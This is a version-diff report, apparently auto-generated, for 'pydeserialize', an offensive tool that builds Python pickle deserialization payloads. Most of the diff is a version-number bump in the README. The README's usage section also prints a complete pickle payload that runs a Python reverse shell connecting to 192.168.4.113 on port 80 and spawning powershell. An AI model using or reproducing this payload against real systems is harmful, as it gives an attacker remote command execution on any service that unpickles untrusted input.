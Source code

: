 ```diff
+-rw-r--r--   0        0        0     2878 2023-07-29 16:25:13.710287 pydeserialize-0.0.9/README.md
+-rw-r--r--   0        0        0       41 2023-07-29 16:25:13.710287 pydeserialize-0.0.9/pydeserialize/__init__.py
+-rw-r--r--   0        0        0      419 2023-07-29 16:25:13.710287 pydeserialize-0.0.9/pydeserialize/encoded.py
+-rw-r--r--   0        0        0     1664 2023-07-29 16:25:13.710287 pydeserialize-0.0.9/pydeserialize/pydeserialize.py
+-rw-r--r--   0        0        0     1449 2023-07-29 16:25:13.710287 pydeserialize-0.0.9/pydeserialize/run.py
+-rw-r--r--   0        0        0      489 2023-07-29 16:25:13.710287 pydeserialize-0.0.9/pyproject.toml
+-rw-r--r--   0        0        0     3366 1970-01-01 00:00:00.000000 pydeserialize-0.0.9/PKG-INFO
```

### Comparing `pydeserialize-0.0.8/LICENSE` & `pydeserialize-0.0.9/LICENSE`

 * *Files identical despite different names*

### Comparing `pydeserialize-0.0.8/README.md` & `pydeserialize-0.0.9/README.md`

 * *Files 2% similar despite different names*

```diff
@@ -34,15 +34,15 @@
 Isso exibirá a ajuda para a ferramenta. Aqui estão todos os switches que ele suporta:
 ```yaml
            _                 _     _ _         
  ___ _ _ _| |___ ___ ___ ___|_|___| |_|___ ___ 
 | . | | | . | -_|_ -| -_|  _| | .'| | |- _| -_|
 |  _|_  |___|___|___|___|_| |_|__,|_|_|___|___|
 |_| |___|  
-     v0.0.8 - @joaoviictorti
+     v0.0.9 - @joaoviictorti
 
 options:
   -h, --help            show this help message and exit
   -ip IP                Insert ip
   -p PORT               Insert port
   -e {b64,shell,urlencode,hex} Insert encoding
   -o {Windows,Linux}    Insert operational system
@@ -62,13 +62,13 @@
 pydeserialize -ip 192.168.4.113 -p 80 -o Windows -e shell
 
            _                 _     _ _         
  ___ _ _ _| |___ ___ ___ ___|_|___| |_|___ ___ 
 | . | | | . | -_|_ -| -_|  _| | .'| | |- _| -_|
 |  _|_  |___|___|___|___|_| |_|__,|_|_|___|___|
 |_| |___|  
-     v0.0.8 - @joaoviictorti
+     v0.0.9 - @joaoviictorti
 
 b'\x80\x04\x95\xf9\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\xe1python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.4.113",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("powershell")\'\x94\x85\x94R\x94.'
 ```
 
